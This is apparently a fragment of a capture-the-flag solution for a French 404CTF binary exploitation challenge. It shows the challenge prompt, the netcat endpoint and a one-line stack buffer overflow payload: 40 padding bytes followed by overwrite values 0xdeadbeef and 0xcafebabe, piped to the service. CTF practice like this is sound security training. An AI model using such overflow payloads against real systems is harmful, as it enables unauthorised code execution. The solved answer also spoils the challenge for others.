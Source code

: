  Trop facile
100

Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.

Auteur: Soremo
nc challenge.404ctf.fr 32458 

(perl -e "print 'A' x 40"; printf "\xef\xbe\xad\xde\xbe\xbe\xfe\xca"; cat) | nc challenge.404ctf.fr 32458
